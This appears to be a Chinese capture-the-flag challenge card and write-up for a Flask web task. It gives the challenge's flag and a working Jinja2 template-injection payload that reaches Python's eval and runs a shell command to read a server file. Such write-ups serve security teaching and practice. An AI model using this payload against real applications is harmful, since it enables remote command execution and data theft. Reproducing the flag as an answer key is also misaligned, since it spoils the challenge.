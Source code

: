 - **题目名称：**ezPy
- **题目类型：** WEB
- **题目难度：**容易
- **出题人：**ABU
- **考点：**

1. python flask ssti模板注入

- **描述：**直接注就完了
- **flag：**flag{Pyth0n_1s_1mp0rtant!!!!!}
- **Writeup：** 

payload如下

```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("cat /flag").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

